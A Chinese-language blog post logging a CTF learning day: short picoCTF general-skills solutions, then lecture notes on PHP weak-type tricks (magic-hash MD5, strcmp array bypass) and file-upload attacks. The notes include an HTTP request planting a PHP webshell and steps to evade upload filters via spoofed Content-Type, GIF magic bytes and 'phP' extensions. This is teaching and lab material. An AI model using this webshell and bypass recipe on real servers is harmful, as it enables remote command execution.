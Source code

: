 ```yaml
---
title: IThome 2024 鐵人賽 一直刷 CTF - Day6
tags:
  - IThome 2024 鐵人賽
  - CTF
  - 資安
categories:
  - IThome 2024 鐵人賽
  - 一直刷 CTF
abbrlink: 59208
date: 2024-09-09 00:00:00
lang:
---
```


## 前言

本日進度：

- [x] 6 題 general skills
- [x] [【成大資安社社課】WEB 1 - 到 Lab - 看完](https://youtu.be/N60VGmhfhy0?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)

<!--more-->

## Writeup

### 第一題：Static ain't always noise

利用 `ltdis.sh` 分解 `static` 檔案，就可以從 `static.ltdis.strings.txt` 中找到 Flag 了

![Image](https://i.imgur.com/SXcqpHY.png)
![Image](https://i.imgur.com/kkgEVwM.png)

### 第二題：Nice netcat...

nc 過去之後會噴很多數字出來，感覺像是 ASCII 碼，所以就把他轉成文字就是 Flag 了，我寫了個簡單的程式

```python
text = ""

while True:
    try:
        num = int(input())
        text += chr(num)
    except:
        break

print(text)
```

![Image](https://i.imgur.com/bnhklQB.png)

### 第三題：Obedient Cat

就載下來印出來就是 Flag 了

### 第四題：2Warm

把 42 轉成 2 進位，然後用 picoCTF{} 包起來就是 Flag 了

### 第五題：First Grep

下載檔案後，用 `grep` 就能找到 Flag 了
![Image](https://i.imgur.com/J6bJSP2.png)

### 第六題：Bases

用 `base64` 解碼就能得到 Flag 了

![Image](https://i.imgur.com/hyNbDA7.png)

## 上課紀錄

### Language Trick - php

- 簡單語法
  ![Image](https://i.imgur.com/aYvLppY.png)
- Weak type
  ![Image](https://i.imgur.com/48FxJ2B.png)
  `0e` 開頭的東西會自動轉型成科學記號
  ![Image](https://i.imgur.com/qEtbysm.png)
  ![Image](https://i.imgur.com/hHMLZzs.png)
  ![Image](https://i.imgur.com/33d9yla.png)
  ![Image](https://i.imgur.com/UPtQUT0.png)
  還有其他若型別轉換的範例，如下的真直表
  ![Image](https://i.imgur.com/a6tRpHz.png)
- Parameter Array
  ![Image](https://i.imgur.com/Zb2FjOA.png)
- Lab - phpisnice
  ![Image](https://i.imgur.com/OWX8SdF.png)
  雖然他 Lab 還是關掉了，但他有給 code ，所以我可以自己玩玩看!
  去查剛剛那些 [MD5 會有問題的字串](https://github.com/JohnHammond/ctf-katana?tab=readme-ov-file#php) 然後找到了這個
  
  | String     | MD5                             |
  | ---------- | ------------------------------- |
  |0e215962017 | 0e291242476940776845150308577824|
  
  指定 A=0e215962017 這題應該就能拿到 Flag 了
- Lab - phpisbest
  ![Image](https://i.imgur.com/6Qa6T5t.png)
  因為他要先過 `strcmp($A, $B) == 0` 所以先把兩個用成不一樣的陣列，這樣會 `null == 0 -> true` 就過了，然後 MD5 只要兩個都是陣列就會 `null == null -> true`，就可以拿到 Flag 了
- File vs Route
  ![Image](https://i.imgur.com/V4YZb0h.png)
  ![Image](https://i.imgur.com/OQyQqYj.png)
  ![Image](https://i.imgur.com/1MELC6v.png)
- Webshell (shell on web)
  惡意的 Webshell
  ![Image](https://i.imgur.com/WfJcHBd.png)
  ![Image](https://i.imgur.com/bGzjcIh.png)

  ```plaintext
    POST /upload.php HTTP/1.1\r\n
  Content-Length: 80172\r\n
  Content-Type: multipart/form-data; boundary=----meow\r\n
  \r\n
  ------owo\r\n
  Content-Disposition: form-data; name="upload"; filename="ouo.txt"\r\n
  Content-Type: text/plain\r\n
  \r\n
  (File Content)
  \r\n
  ------owo--\r\n
  ```

  改成

  ```plaintext
  POST /upload.php HTTP/1.1\r\n
  Content-Length: 80172\r\n
  Content-Type: multipart/form-data; boundary=----meow\r\n
  \r\n
  ------owo\r\n
  Content-Disposition: form-data; name="upload"; filename="webshell.php"\r\n
  Content-Type: text/php\r\n
  \r\n
  <?php system($_GET['cmd']);?>
  \r\n
  ------owo--\r\n
  ```

  怎麼抵擋呢?
  1. 錯誤示範 - 用前端擋，可以輕易繞過
    ![Image](https://i.imgur.com/nu7sTqM.png)
  2. 檢查 File Content Type
      但是如果把 Request 的 Content-Type 改掉 (例如image/png) 就可以 bypass 了
  3. 檢查 File signature
      - magic number: 透過檢查檔案的開頭幾個 byte 來判斷檔案類型
        ![Image](https://i.imgur.com/Wei7vN0.png)
        但這東西也很容易被偽造，只要在前面加上簽名就可以了
        ![Image](https://i.imgur.com/0Qgu6l8.png)
        在前面加上 gif87a 後端就會以為上傳的是 gif
  4. 副檔名
      - whitelist
      - blacklist
      ![Image](https://i.imgur.com/Fx6F16L.png)
      但需要全部都擋掉，不然把副檔名改成 `phP` 之類的就可能可以繞過
- Lab - uploader (lab 關掉了)
  照抄剛剛可以觸發 Webshell php，然後就能從根目錄取得 Flag 了
- Lab - uploader-waf (lab 關掉了)
  他有改 content-type 和副檔名，所以要把前面的 `Content-Type: text/php` 改成 `Content-Type: image/png`，然後把副檔名改成 `phP` 就可以繞過了，接下來就跟上一題一樣在根目錄取得 Flag

## 參考資料

- [【成大資安社社課】手把手Python教學 --- 從入門到入侵](https://youtu.be/-cMOv9QudOk?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】WEB 1](https://youtu.be/N60VGmhfhy0?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】WEB 2](https://youtu.be/PqydmB-IoYc?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】不是web3.0的 web3 - Vincent55](https://youtu.be/xjnAnrfApJo?list=PLFFwfkaPB2mqsfIQvdoT6xc0CziXhmrEV)
- [【成大資安社社課】Crypto 1](https://youtu.be/nVXA9S9Y07M?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】Crypto 2](https://youtu.be/LtWiQxbMjwg?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】Linux 基礎指令與使用者管理](https://youtu.be/8WVrUqjBsRE?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)
- [【成大資安社社課】淺談網路與 H T T P](https://youtu.be/pNhHXhPkNcE?list=PLFFwfkaPB2mra818QJIiPJtXFShdndl9z)

